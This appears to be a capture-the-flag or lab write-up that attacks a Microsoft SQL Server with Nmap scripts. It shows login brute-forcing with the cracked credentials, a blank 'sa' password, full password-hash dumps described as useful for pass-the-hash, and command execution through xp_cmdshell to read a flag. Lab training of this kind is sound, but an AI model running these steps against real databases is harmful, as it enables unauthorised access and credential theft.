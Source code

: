 # MSSQL Nmap Scripts

1. Identify MSSQL Database Server

Just using nmap we can figure it out. The current version is Microsoft SQL Server 2019 15.00.2000.

**Note**: This database often uses port 1433.

Using the nmap script `ms-sql-info`, we can get a little bit more of information about the server.

| ms-sql-info: 
|   10.3.16.80:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433


2. Find information from the MSSQL server with NTLM.

To get more info about the server using NTLM we need to use the nmap script `ms-sql-ntlm-info` with script-args `mssql.instance-port=<port number>`.

| ms-sql-ntlm-info: 
|   Target_Name: MSSQL-SERVER
|   NetBIOS_Domain_Name: MSSQL-SERVER
|   NetBIOS_Computer_Name: MSSQL-SERVER
|   DNS_Domain_Name: MSSQL-Server
|   DNS_Computer_Name: MSSQL-Server
|_  Product_Version: 10.0.14393


3. Enumerate all valid MSSQL users and passwords

We can approach this task using the nmap script `ms-sql-brute` with script-args `userdb` and `passdb`.

| ms-sql-brute: 
|   [10.3.16.80:1433]
|     Credentials found:
|       auditor:jasmine1 => Login Success
|       admin:anamaria => Login Success
|_      dbadmin:bubbles1 => Login Success

4. Identify 'sa' user password

Running the nmap script `ms-sql-empty-password` we can get users that has empty password policy. In this case the user sa was found.

5. Execute MSSQL query to extract sysusers

Using the following nmap command `nmap x.x.x.x -p 1433 --script ms-sql-query --script-args mssql.username=<username>,mssql.password=<password>,ms-sql-query.query="SELECT * FROM master..syslogins" -oN output.txt` we can execute a query to bring syslogins from the database. You can change the query to any other to get more information.

6. Dump MSSQL users hashes

Using the nmap script `ms-sql-dump-hashes` with script-args mssql.username mssql.password, we can get some hashes:

ms-sql-dump-hashes: 
| [10.3.20.243:1433]
|     sa:0x020011dbfaf35ba0d5e61a769e3604230fde23e5d3e01e7ff0ba3875cf75554803e2f1e1977b78de8f4489c95df9be979c02f1dec551300c109c408c427934815755b600c7e0
|     ##MS_PolicyEventProcessingLogin##:0x0200191cf079f310fb475527ac320aba7a4e8d5c3567bef2462b96ce8a8629b7f986ed344aa0963ac3a096da77056dad77a457644431282e2aa2c2243bc635abc6bb5f52552c
|     ##MS_PolicyTsqlExecutionLogin##:0x0200677385acfe08bb1119246cf20f9d17c3a0d86bbb1d48874725f2c2e0e021260b885d0ba067427e09afad9079e6759ad6497ee7f1ef3cd497d500585d7727eeba64426083
|     admin:0x02003814edd67dcab815b733d877a0fe7ec3470185864bd673c7273ba76c31e000c15e9fae25a826f6ba03892e37d6a1acae17f171d21dad7b20d874ccc259bbf9fa2230b9c0
|     Mssql:0x02001786154bb350ac708b5a4c3fc6b90dc68418a13ba5fcb76b155f8eee14d72988edb559d9a2d0d6fd5dd25b1fab8431c0ca424d747a5743624c30aa772b40c8f23c66e6a4
|     Mssqla:0x0200987f06858112a7fa0c70fe3f53c64061b35ae864782fc9cfcda3954ed60ca7e47e8497a571d177edb596f125cb529d7b2753e4d8e913c2b127a12207e3bcb75f70e29cb5
|     auditor:0x020061cbe8509dfea47fbc20be854c4ac517bf6aa67f9f7c12d7d1efb1f500be279643c6cd19d370f9eff4f2d9b981a16f6916bc4534e8ba42d718f8b908fbfffb40d5cc1a5e
|_    dbadmin:0x02000d6c6a0d55f536f9dbff2d8cc1e0965c550e1a1a1e7c6df8b7e6534ab817408f86dd9592b206862c4b7a3d1f6ca85f439360171d7c5143d6fba8606675dbaf5bea40d15b

Pretty useful later to perform pass the hash attacks for example.

7. Execute a command on MSSQL to retrieve the flag. (The flag is located inside C:\flag.txt)

Usin the nmap script `ms-sql-xp-cmdshell` with script-args mssql.username, mssql.password and ms-sql-xp-cmdshell.cmd we can try to execute commands in the remote machine using sql. We can get this output using the command `type C:\flag.txt`:

| ms-sql-xp-cmdshell: 
|   [10.3.20.243:1433]
|     Command: type c:\flag.txt
|       output
|       ======
|_      1d1803570245aa620446518b2154f324

**Note**: When you don't know what to do, the site of NSE can be a source for more scripts and ways to enumerate more and more information from other versions of sql or programs we don't really have an idea about.